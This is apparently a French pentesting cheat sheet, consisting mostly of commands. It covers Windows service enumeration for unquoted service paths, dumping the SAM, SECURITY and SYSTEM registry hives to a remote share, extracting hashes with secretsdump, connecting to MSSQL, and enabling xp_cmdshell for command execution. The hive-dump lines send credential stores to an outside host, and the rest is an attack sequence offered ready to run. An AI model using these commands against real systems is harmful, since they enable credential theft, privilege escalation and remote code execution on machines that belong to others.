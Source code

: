 #### En mode jolie

```
wmic service get name,displayname,startmode,pathname,startname
Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode, StartName
```

#### Unquoted service

```
Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode, StartName | Where {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select Name,DisplayName,StartMode,PathName,StartName
```

## Extraction de mot de passe

### Windows

```powershell
reg save HKLM\SAM "\\ip\SHARE\sam.save"
reg save HKLM\SECURITY "\\ip\SHARE\security.save"
reg save HKLM\SYSTEM "\\ip\SHARE\system.save"
```

### Traitement 

```
secretdump LOCAL -sam sam.save -security security.save -system system.save
```

## MSSQL

### Windows

Azure Data Studio

### Linux

```
mssqlclient.py user:password@ip
mssqlclient.py -windows-auth user:password@ip
```

### RCE

```
# This turns on advanced options and is needed to configure xp_cmdshell
sp_configure 'show advanced options', '1'
RECONFIGURE
#This enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE

# Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'
```
